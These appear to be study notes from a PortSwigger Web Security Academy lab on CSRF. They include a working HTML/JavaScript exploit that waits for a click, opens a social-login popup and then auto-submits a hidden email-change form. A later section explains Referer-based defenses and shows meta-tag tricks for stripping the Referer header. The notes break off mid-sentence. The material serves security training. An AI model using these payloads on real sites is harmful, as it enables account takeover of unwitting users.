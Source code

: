 **Bypass the popup blocker**
- Realize that the popup is being blocked because you haven't manually interacted with the page.
- Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:
  ```html
  <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="pwned@portswigger.net">
  </form>
  <p>Click anywhere on the page</p>
  <script>
      window.onclick = () => {
          window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
          setTimeout(changeEmail, 5000);
      }

      function changeEmail() {
          document.forms[0].submit();
      }
  </script>
  ```
---
# Bypassing Referer-based CSRF defenses

Aside from defenses that employ CSRF tokens, some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This approach is generally less effective and is often subject to bypasses.
Referer header

The HTTP Referer header (which is inadvertently misspelled in the HTTP specification) is an optional request header that contains the URL of the web page that linked to the resource that is being requested. It is generally added automatically by browsers when a user triggers an HTTP request, including by clicking a link or submitting a form. Various methods exist that allow the linking page to withhold or modify the value of the Referer header. This is often done for privacy reasons.
Validation of Referer depends on header being present

Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:
```html
<meta name="referrer" content="never">
```
---

```html
<meta name="referrer" content="no-referrer">
```

controls how the **`Referer` HTTP header** is sent by the browser when a user clicks a link or makes a request from the page. Specifically:

---